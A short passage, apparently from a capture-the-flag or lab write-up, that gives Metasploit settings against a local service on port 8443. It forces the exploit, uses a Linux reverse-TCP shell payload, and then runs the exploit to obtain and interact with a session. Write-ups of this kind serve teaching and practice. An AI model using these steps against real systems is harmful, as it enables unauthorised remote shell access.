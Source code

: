During the exploitation process, several things need to be considered before carrying out exploitation including:

```
set rhost 127.0.0.1
set rport 8443
set forceexploit true
use payload linux/x86/shell/reverse_tcp
```

![](/assets/img/monitor/19.png)

and execute `exploit -j` command will obtain a session, to interact with session use command `session (id)`

![](/assets/img/monitor/20.png)
